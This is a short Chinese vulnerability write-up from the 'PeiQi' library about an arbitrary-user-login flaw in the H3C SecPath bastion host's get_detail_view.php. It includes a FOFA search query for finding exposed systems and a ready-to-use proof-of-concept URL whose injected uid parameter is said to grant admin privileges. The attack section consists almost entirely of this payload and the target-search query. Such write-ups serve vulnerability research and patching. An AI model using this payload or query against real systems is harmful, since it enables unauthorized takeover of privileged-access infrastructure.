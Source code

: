 ```yaml
---
title: H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - H3C
---
```


# H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

> [!NOTE]
>
> H3C SecParh堡垒机 

## FOFA

> [!NOTE]
>
> app="H3C-SecPath-运维审计系统" && body="2018"

## 漏洞复现

登录页面如下

![image-20210616132951212](/img/20210924020243288621.png)

POC验证的Url为

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![](/img/20210924015112653505.png)

成功获取admin权限

## Goby & POC

![](/img/20210924015113188725.png)